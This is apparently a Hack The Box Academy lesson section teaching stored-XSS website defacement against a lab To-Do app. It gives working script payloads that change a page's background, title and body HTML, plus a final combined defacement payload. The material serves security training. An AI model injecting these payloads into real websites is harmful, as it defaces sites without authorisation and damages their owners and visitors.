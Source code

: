 ﻿Now that we understand the different types of XSS and various methods of discovering XSS vulnerabilities in web pages, we can start learning how to exploit these XSS vulnerabilities. As previously mentioned, the damage and the scope of an XSS attack depends on the type of XSS, a stored XSS being the most critical, while a DOM-based being less so.

One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks.Â `Defacing`Â a website means changing its look for anyone who visits the website. It is very common for hacker groups to deface a website to claim that they had successfully hacked it, like when hackers defaced the UK National Health Service (NHS)Â [back in 2018](https://www.bbc.co.uk/news/technology-43812539). Such attacks can carry great media echo and may significantly affect a company's investments and share prices, especially for banks and technology firms.

Although many other vulnerabilities may be utilized to achieve the same thing, stored XSS vulnerabilities are among the most used vulnerabilities for doing so.

---

## Defacement Elements

We can utilize injected JavaScript code (through XSS) to make a web page look any way we like. However, defacing a website is usually used to send a simple message (i.e., we successfully hacked you), so giving the defaced web page a beautiful look isn't really the primary target.

Four HTML elements are usually utilized to change the main look of a web page:

- Background ColorÂ `document.body.style.background`
- BackgroundÂ `document.body.background`
- Page TitleÂ `document.title`
- Page TextÂ `DOM.innerHTML`

We can utilize two or three of these elements to write a basic message to the web page and even remove the vulnerable element, such that it would be more difficult to quickly reset the web page, as we will see next.

---

## Changing Background

Let's go back to ourÂ `Stored XSS`Â exercise and use it as a basis for our attack. You can go back to theÂ `Stored XSS`Â section to spawn the server and follow the next steps.

To change a web page's background, we can choose a certain color or use an image. We will use a color as our background since most defacing attacks use a dark color for the background. To do so, we can use the following payload:


```html
<script>document.body.style.background = "#141d2b"</script>
```

Tip: Here we set the background color to the default Hack The Box background color. We can use any other hex value, or can use a named color likeÂ `= "black"`.

Once we add our payload to theÂ `To-Do`Â list, we will see that the background color changed:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/103/xss_defacing_background_color.jpg)

This will be persistent through page refreshes and will appear for anyone who visits the page, as we are utilizing a stored XSS vulnerability.

Another option would be to set an image to the background using the following payload:



```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

Try using the above payload to see how the final result may look.

---

## Changing Page Title

We can change the page title fromÂ `2Do`Â to any title of our choosing, using theÂ `document.title`Â JavaScript property:


```html
<script>document.title = 'HackTheBox Academy'</script>
```

We can see from the page window/tab that our new title has replaced the previous one:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/103/xss_defacing_page_title.jpg)

---

## Changing Page Text

When we want to change the text displayed on the web page, we can utilize various JavaScript functions for doing so. For example, we can change the text of a specific HTML element/DOM using theÂ `innerHTML`Â property:



```javascript
document.getElementById("todo").innerHTML = "New Text"
```

We can also utilize jQuery functions for more efficiently achieving the same thing or for changing the text of multiple elements in one line (to do so, theÂ `jQuery`Â library must have been imported within the page source):


```javascript
$("#todo").html('New Text');
```

This gives us various options to customize the text on the web page and make minor adjustments to meet our needs. However, as hacking groups usually leave a simple message on the web page and leave nothing else on it, we will change the entire HTML code of the mainÂ `body`, usingÂ `innerHTML`, as follows:



```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

As we can see, we can specify theÂ `body`Â element withÂ `document.getElementsByTagName('body')`, and by specifyingÂ `[0]`, we are selecting the firstÂ `body`Â element, which should change the entire text of the web page. We may also useÂ `jQuery`Â to achieve the same thing. However, before sending our payload and making a permanent change, we should prepare our HTML code separately and then useÂ `innerHTML`Â to set our HTML code to the page source.

For our exercise, we will borrow the HTML code from the main page ofÂ `Hack The Box Academy`:



```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```

**Tip:**Â It would be wise to try running our HTML code locally to see how it looks and to ensure that it runs as expected, before we commit to it in our final payload.

We will minify the HTML code into a single line and add it to our previous XSS payload. The final payload should be as follows:



```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

Once we add our payload to the vulnerableÂ `To-Do`Â list, we will see that our HTML code is now permanently part of the web page's source code and shows our message for anyone who visits the page:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/103/xss_defacing_change_text.jpg)

By using three XSS payloads, we were able to successfully deface our target web page. If we look at the source code of the web page, we will see the original source code still exists, and our injected payloads appear at the end:



```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>
```

This is because our injected JavaScript code changes the look of the page when it gets executed, which in this case, is at the end of the source code. If our injection was in an element in the middle of the source code, then other scripts or elements may get added after it, so we would have to account for them to get the final look we need.

However, to ordinary users, the page looks defaced and shows our new look.
